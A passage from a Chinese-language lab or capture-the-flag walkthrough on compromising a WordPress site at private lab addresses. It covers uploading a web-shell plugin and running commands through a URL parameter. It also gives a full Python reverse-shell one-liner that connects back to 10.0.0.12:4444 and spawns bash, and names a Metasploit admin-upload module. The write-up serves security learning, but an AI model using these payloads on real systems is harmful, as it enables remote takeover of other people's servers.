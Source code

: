 ```php
	}
?>
```

`Plugins->Add New->Upload Plugin`

注意,插件需要打包为zip方可上传安装

![截屏2021-08-25 下午4.02.04](https://tva1.sinaimg.cn/large/008i3skNgy1gtt3faqy82j61090u0jv602.jpg)

记得要点击一下激活插件哦

安装后的插件会被储存在wp-content/plugins下

我们访问一下`http://10.0.0.31/wordpress/wp-content/plugins/wp-plugin-shell.php?qaq=id`

![截屏2021-08-25 下午4.51.35](https://tva1.sinaimg.cn/large/008i3skNly1gtt4urtxgxj61090u0adg02.jpg)

成功啦!

接下来我们使用which命令看看有哪些命令是可用的

这里有个小坑,我们可以使用`which nc`成功发现nc

使用`which python`找不到,使用`which python2`找不到.

最后使用`which python3`,找到啦!所以一定要选择注意版本,多尝试!

之前我们已经用过很多次串联nc了,我们这次再换个口味,用python

`http://10.0.0.31/wordpress/wp-content/plugins/wp-plugin-shell.php?qaq=python3%20-c%20%22import%20socket,os;RHOST=%2710.0.0.12%27;RPORT=4444;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((RHOST,RPORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn('/bin/bash')"`

![截屏2021-08-25 下午5.45.59](https://tva1.sinaimg.cn/large/008i3skNgy1gtt6fel91zj61090u0n1o02.jpg)

#### 4.msf获取shell

首先打开msfconsole,搜索并使用`exploit/unix/webapp/wp_admin_shell_upload`

设置相应参数,run即可获得反弹meterpreter.

我们尝试编辑之前的404.php文件

![截屏2021-08-25 下午8.49.50](https://tva1.sinaimg.cn/large/008i3skNgy1gttbqqyknej61090u0q6h02.jpg)

使用vi时遇到了困难,怎么不能使用方向键!

我们需要先升级Full TTY Shell

注意.此升级方案只适用于bash.

如果你使用的也是Kali Linux,那么在此之前,可能需要先把zsh切换为bash.

输入`echo $SHELL`查看当前shell类型,如果为bash,则可直接升级,如果为其他类型的shell,先执行下面的命令以切换shell.

`chsh -s /bin/bash`然后重启

1.输入Ctrl+Z
